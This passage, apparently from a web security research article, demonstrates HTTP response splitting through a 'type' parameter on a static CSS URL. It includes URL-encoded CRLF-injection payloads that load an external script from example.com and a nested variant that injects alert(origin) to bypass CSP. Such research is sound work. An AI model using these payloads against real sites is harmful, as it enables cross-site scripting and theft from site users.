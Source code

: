 Load external script:

```
/static/css/main.css?type=text/html%0d%0a%0d%0a%3Cscript%20src=%22http://example.com/foo.js%22%3E%3C/script%3E
```

![](/research/articles/ArticleNo5/image5.png)

If we try to use the response splitting as a CSP gadget (Nested response splitting), we'll get invalid JavaScript syntax because of the original response body data:

```
/static/css/main.css?type=text/html%0d%0a%0d%0a%3Cscript+src=%22/static/css/main.css%3ftype%3dtext/javascript%250d%250a%250d%250aalert(origin)%22%3E%3C/script%3E
```

Injected response body data:

```html
<script src="/static/css/main.css?type=text/javascript%0d%0a%0d%0aalert(origin)"></script>
```

![](/research/articles/ArticleNo5/image6.png)
